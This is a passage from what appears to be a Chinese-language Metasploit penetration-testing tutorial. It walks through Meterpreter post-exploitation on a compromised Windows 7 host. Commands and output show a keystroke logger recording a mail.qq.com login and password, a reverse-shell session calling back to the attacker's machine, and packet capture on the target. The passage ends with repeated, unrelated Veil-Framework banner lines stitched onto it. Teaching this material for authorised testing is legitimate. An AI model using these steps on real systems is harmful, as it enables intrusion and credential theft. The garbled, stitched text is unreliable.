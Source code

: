 输出的信息显示了 Meterpreter 命令行下可运行的所有命令。输出的信息中，每个命令的作用都有详细的描述。用户可以根据自己的情况，执行相应的命令。

（11）启动键盘输入，执行命令如下所示：

```
meterpreter > keyscan_start
Starting the keystroke sniffer… 
```

（12）获取键盘输入信息，执行命令如下所示：

```
meterpreter > keyscan_dump
Dumping captured keystrokes…
<Back> <Back> <Back> <Back> <N1> <N0> <N1> <N2> <N0> <N7> <N3> <N5> <N5> <N4> <Back> <Back> <Back> <Back> <Back> mail.qq.com <Return> <N1> <N2> <N3> <N4> <N5> <N6> <N7> <N8> <N9> <N1> 123456 <Return> 
```

输出的信息显示了客户端在浏览器中输入的所有信息。如访问了 mail.qq.com 网站，登录的邮箱地址为 1234567891，密码为 123456。

### 6.4.8 在 Metasploit 中捕获包

在 Metasploit 中，通过使用模块进行渗透攻击可以获取到一个 Meterpreter Shell。在 Meterpreter Shell 中，可以捕获目标系统中的数据包。下面将介绍如何在 Metasploit 中捕获数据包。

（1）首先要确定获取到一个活跃的会话，并有一个连接到目标主机的 Meterpreter Shell。下面是 Windows 7 连接到攻击主机的一个 Meterpreter Shell，如下所示：

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.110:2478) at 2014-07-17 10:44:47 +0800
meterpreter > 
```

从输出的信息中，可以看到成功的打开了一个 Meterpreter 会话。接下来，就可以使用 run packetrecorder 命令捕获目标系统的数据包了。

（2）查看 packetrecorder 命令的参数。执行命令如下所示：

```
meterpreter > run packetrecorder
Meterpreter Script for capturing packets in to a PCAP file
on a target host given a interface ID.
OPTIONS:
  -h             Help menu.
  -i <opt> Interface ID number where all packet capture will be done.
  -l <opt> Specify and alternate folder to save PCAP file.
  -li            List interfaces that can be used for capture.
  -t <opt> Time interval in seconds between recollection of packet, default 30 seconds. 
```

以上输出的信息显示 run packetrecorder 命令的作用和可用选项参数。在捕获数据前，首先要指定捕获接口。所以，需要查看主机中可用的捕获接口。

（3）查看可用的捕获网络接口。执行命令如下所示：

```
meterpreter > run packetrecorder -li
1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false ) 
```


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework